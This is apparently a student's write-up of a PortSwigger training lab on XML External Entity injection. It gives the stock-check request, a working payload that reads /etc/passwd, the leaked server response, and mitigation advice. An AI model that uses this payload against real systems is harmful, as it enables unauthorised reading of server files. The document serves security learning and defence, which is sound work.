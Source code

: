📁 `README.md` — XXE via External Entity (Apprentice)

# 📄 Exploiting XXE Using External Entities to Retrieve Files

**🧪 Lab Level:** Apprentice  
**🔐 Vulnerability:** XML External Entity (XXE)  
**✅ Status:** Solved  
**🛠 Platform:** PortSwigger Web Security Academy  
**🎯 Objective:** Retrieve the contents of `/etc/passwd` using a basic XXE injection.

---

## 🔍 Lab Summary

This lab demonstrates how an XML parser vulnerable to external entities can be exploited to read files from the server's filesystem.  
The "Check stock" feature parses XML input and reflects back invalid input in the response — which is ideal for testing XXE.

---

## 🚦 Steps to Exploit

### 📥 Original HTTP Request

```http
POST /product/stock HTTP/1.1
Host: [YOUR-LAB-HOST]
Content-Type: application/xml
Content-Length: [XX]

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck>
````

---

### 💣 Malicious Payload (External Entity Injection)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```

---
![XXE](https://github.com/Kabilala/xxe/blob/main/lab1/lab1.png)

### 🧾 Server Response

When the injection is successful, the server returns an error containing the contents of `/etc/passwd`:

```
Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
```

---

## 🧠 Technical Breakdown

| Component                                   | Purpose                                                                   |
| ------------------------------------------- | ------------------------------------------------------------------------- |
| `<!DOCTYPE>`                                | Declares a DTD (Document Type Definition)                                 |
| `<!ENTITY xxe SYSTEM "file:///etc/passwd">` | Defines an external entity pointing to the target file                    |
| `&xxe;`                                     | Triggers the entity resolution, injecting file contents into the XML body |

---

## 🔐 Mitigation Techniques

To prevent this vulnerability in production systems:

* Disable DTD processing in your XML parsers
* Use secure libraries (e.g. `defusedxml` in Python, `SAXParserFactory.setFeature` in Java)
* Sanitize or avoid XML input from untrusted sources
* Apply the principle of least privilege: ensure the app cannot read sensitive files

---

## 📚 Resources

* [🛡️ PortSwigger XXE Labs](https://portswigger.net/web-security/xxe)
* [📄 OWASP XXE Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)
* [🔥 PayloadsAllTheThings: XXE](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md)

---

## 👩‍💻 Author

**Kaouthar Belkebir**
Cybersecurity Enthusiast | Pentest Learner | PortSwigger & TryHackMe Explorer
[LinkedIn](https://www.linkedin.com/in/kaouthar-belkebir-ab453223b) | [Credly Certifications](https://www.credly.com/users/kawtar-belkebir)

```
